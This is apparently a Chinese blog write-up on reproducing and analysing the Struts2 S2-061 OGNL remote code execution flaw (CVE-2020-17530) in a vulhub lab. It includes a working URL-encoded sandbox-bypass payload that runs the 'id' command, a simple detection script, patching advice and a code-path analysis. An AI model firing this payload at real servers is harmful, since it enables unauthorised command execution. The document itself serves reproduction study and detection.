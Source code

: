 # Struts2 S2-061 远程命令执行漏洞（CVE-2020-17530）复现与利用

## 漏洞概述

Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。

CVE-2020-17530是对CVE-2019-0230的绕过，Struts2官方对CVE-2019-0230的修复方式是加强OGNL表达式沙盒，而CVE-2020-17530绕过了该沙盒。在特定的环境下，远程攻击者通过构造恶意的OGNL表达式，可造成任意代码执行。

## 影响版本

Struts 2.0.0 – Struts 2.5.25

## 漏洞复现

### 环境搭建

此处使用了vulhub里面的环境。

![img1.png](C:\Users\86178\PycharmProjects\hypnoticp.github.io\docs\img\屏幕截图 2024-04-01 152740.png)

### 漏洞测试

- 检验漏洞是否存在

```
url:8080/?id=%25%7b+%27test%27+%2b+(2021+%2b+20).toString()%7d
```

![屏幕截图 2024-04-01 152658.png](C:\Users\86178\PycharmProjects\hypnoticp.github.io\docs\img\屏幕截图 2024-04-01 152658.png)

可以在响应包中发现执行了 2021+20的命令2041.

- 执行系统命令id

```
url:8080/?id=%25{(%27Powered_by_Unicode_Potats0%2cenjoy_it%27).(%23UnicodeSec+%3d+%23application[%27org.apache.tomcat.InstanceManager%27]).(%23potats0%3d%23UnicodeSec.newInstance(%27org.apache.commons.collections.BeanMap%27)).(%23stackvalue%3d%23attr[%27struts.valueStack%27]).(%23potats0.setBean(%23stackvalue)).(%23context%3d%23potats0.get(%27context%27)).(%23potats0.setBean(%23context)).(%23sm%3d%23potats0.get(%27memberAccess%27)).(%23emptySet%3d%23UnicodeSec.newInstance(%27java.util.HashSet%27)).(%23potats0.setBean(%23sm)).(%23potats0.put(%27excludedClasses%27%2c%23emptySet)).(%23potats0.put(%27excludedPackageNames%27%2c%23emptySet)).(%23exec%3d%23UnicodeSec.newInstance(%27freemarker.template.utility.Execute%27)).(%23cmd%3d{%27id%27}).(%23res%3d%23exec.exec(%23cmd))}
```

![截图](C:\Users\86178\PycharmProjects\hypnoticp.github.io\docs\img\81c3f3809fbe4e6b94b39ac4e5fa2ad6.png)

## 漏洞检测poc

```
# structs.py

import requests

def scan(target_url):
    try:
        headers = {
            'User-Agent': 'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Mobile Safari/537.36'
        }
        vul_url = target_url + '/?id=%25%7b+%27test%27+%2b+(2021+%2b+20).toString()%7d'
        response = requests.get(vul_url, headers=headers, timeout=10)
        if '2041' in response.text:
            return True
        else:
            return False
    except Exception as e:
        print('[-] 发生错误:', e)
        return False

```

可以使用以下工具来检测漏洞是否存在:https://github.com/hypnoticp/Python_script

![屏幕截图 2024-04-01 152814.png](C:\Users\86178\PycharmProjects\hypnoticp.github.io\docs\img\a399a8a4af8854eb73de24e4df5851cf.png)

## 应急与修复建议

- 将Apache Struts框架升级至最新版本
- 排查docker log日志，web访问日志，struts2框架日志

## 漏洞原理

Struts在某些情况下可能存在OGNL表达式注入注入漏洞，如果开发人员使用了%{…}语法，进行强制的OGNL解析，某些特殊的TAG属性可能被双重解析，攻击者可以通过构造恶意的OGNL表达式来利用此漏洞，最终造成远程代码执行。

### 分析

S2-059是Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，导致命令注入。S2-061则是对S2-061的沙盒的绕过,原理一样.

tag标签存在二次解析，说明存在漏洞，那我们可以找到structs2标签解析的入口，也是·本次debug的入口。

![截图](C:\Users\86178\PycharmProjects\hypnoticp.github.io\docs\img\d179e36ede9332e83071dc55843c2c75.png)

该漏洞发生在输入的参数被传入到某些标签的id属性中,在传递的过程中struts2进行了如图的两次OGNL解析.导致了命令执行. 我们知道Struts2中的标签解析由org.apache.struts2.views.jsp.ComponentTagSupport的doStartTag方法开始的,所以这两次解析就发生在该方法中. 以下分析使用的payload=%{3*5}.

![截图](4f31ae4ebe77b9618095d20734a5c4f6.png)

#### 第一次解析

第一次解析出现在this.populateParams()方法中. 该方法中调用了两次父类的populateParams()方法.在后一次的populateParams()方法中调用了uiBean.setId(this.id);,id为jsp中a标签内的值(%id).

![截图](e410928ad5857cb558e345a724f3fa65.png)

该方法内部调用findString()方法.

![截图](579e070d2d3cb81f15a9b02e100b1873.png)

接着又调用findValue()方法,这里省略一部分方法,调用栈如下,一步步跟进发现最终调用OgnlTextParser.evaluate方法.该方法中将%{}解析%{3*5}

#### 第二次解析

第二次解析出现在this.component.start(this.pageContext.getOut());中.跟进该方法.

![截图](430ec2a803e77412fc0e861287f632ec.png)

发现调用父类的start方法.继续跟进:

![截图](7d0c03e410d9057c4452c6df58f2fc3f.png)

现一个evaluateParams方法,翻译过来评估参数.猜想会对参数做某些操作.跟进它:

![截图](c26f2024fc216a0a73d6c39b9e264b59.png)

内部执行populateComponentHtmlId(form);方法.继续跟进:

![截图](954be87e600bbf88bbf450be46d5764e.png)

发现里面调用findStringIfAltSyntax方法.从名称可以判断出如果开启AltSyntax.则调用findValue.跟进看看:

![截图](1092e07c2d572721e1f8a298c50f2fbb.png)

果不其然,我们就找到了该漏洞的另一个条件(除了版本外),必须开启AltSyntax.struts2文档对于AltSyntax说明如下:

```
The altSyntax is an option that can be defined in struts.xml. By default it is set to true and it is strongly recommend you do not change that unless you are upgrading from WebWork 2.1.7 or previous versions.
```

从官方文档中可以看到该AltSyntax设置是默认开启,所以执行findString方法,走的流程就和第一次一样,对id的值再一次OGNL解析.